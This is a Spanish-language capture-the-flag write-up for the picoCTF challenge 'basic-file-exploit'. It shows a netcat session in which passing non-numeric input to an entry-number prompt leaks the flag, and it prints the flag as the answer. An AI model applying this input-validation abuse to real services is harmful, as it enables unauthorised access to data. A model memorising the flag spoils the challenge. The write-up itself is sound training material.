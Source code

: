 # basic-file-exploit

## Descripción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 52194` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/140/program-redacted.c).

## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 52194
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Megusta
Megusta
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
si
si
Please put in a valid number
No data given.
Please put in a valid number
2
2
Please enter the entry number of your data:
no
no
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}


## Notas adicionales
Exploitation

## Referencias
None